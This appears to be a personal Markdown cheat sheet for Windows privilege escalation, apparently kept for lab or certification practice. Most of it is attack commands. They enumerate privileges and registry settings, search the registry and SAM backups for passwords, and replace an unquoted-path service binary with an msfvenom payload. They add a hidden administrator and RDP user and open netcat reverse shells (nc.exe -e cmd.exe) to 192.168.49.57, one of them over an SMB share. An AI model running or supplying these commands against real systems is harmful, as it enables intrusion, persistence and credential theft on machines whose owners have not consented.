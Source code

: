 # Windows Privilege Escallation
- [ ] OS and Kernel information: `systeminfo`
- [ ] Current User: `whoami /all`
  - [ ] [NT AUTHORITY\LOCAL SERVICE](https://itm4n.github.io/localservice-privileges/?ref=benheater.com); This will enable `SeImpersonatePrivilege`.
- [ ] Local Users: `net users`
- [ ] Local Groups: `net localgroup`
- [ ] Network interfaces: `ipconfig`
- [ ] Open Ports: `netstat -ano`
- [ ] `whoami /priv` ->
  - [ ] SeImpersonatePrivilege
    - [ ] [PrintSpoofer](https://github.com/itm4n/PrintSpoofer): SeImpersonatePrivilege + Microsoft Windows Server 2019 Standard = PrintSpoofer64.exe
  - [ ] `AlwaysInstallElevated`
- [ ] Check installed softwares: `c:\Program Files (x86)`
```
#https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
- [ ] Check file permissions: `icacls "\path\to\file"`
- [ ] If you find credentials, then you can use `runas` method to make connection with netcat
```
runas /user:administrator "C:\users\viewer\desktop\nc.exe -e cmd.exe 192.168.49.57 443"
```
- [ ] Check Unqouted Path Service
```
#FIND SERVICE
wmic service get name,displayname,pathname,startmode |findstr /i "auto"

#CHANGE FILE WITH MSFVENOM PAYLOAD (DOWNLOAD WITH CERTUTIL)

#REBOOT
shutdown /r
```
- [ ] Look for passwords in registries
```
req query HKLM /f pass /t REG_SZ /s
```

---

# SeImpersonatePrivilege
- [GodPotato](https://github.com/BeichenDream/GodPotato)

---

- Check if there is a port that is open only internally (`netstat –nao`)
- Port forward if there is a new port internally and start checking it from zero
- Creating admin user which has RDP access

```
net user /add haji haji
net localgroup administrators haji /add
net localgroup "Remote Desktop Users" haji /add
```

# Shell Upgrade
```
#COPY NETCAT
cp /usr/share/windows-resources/binaries/nc.exe .

#SERVE IT VIA SMB
smbserver.py -smb2support -username evil -password evil evil $PWD

#START LISTENER ON ANOTHER PORT
nc -lnvp 80

#Execute nc.exe by using the UNC path.
net use z: \\192.168.49.57\evil /user:evil evil
Z:\nc.exe 192.168.49.57 80 -e cmd.exe
```


## Binary Hijacking


## DLL Hijacking


---

```
My first commands I use when getting a Windows shell are below. Enumerate OS etc, check for JuicyPotato, common password locations and running netstat.

systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 
whoami /priv
netstat –nao
dir C:\Windows\System32\config\RegBack\SAM
dir C:\Windows\System32\config\RegBack\SYSTEM
```
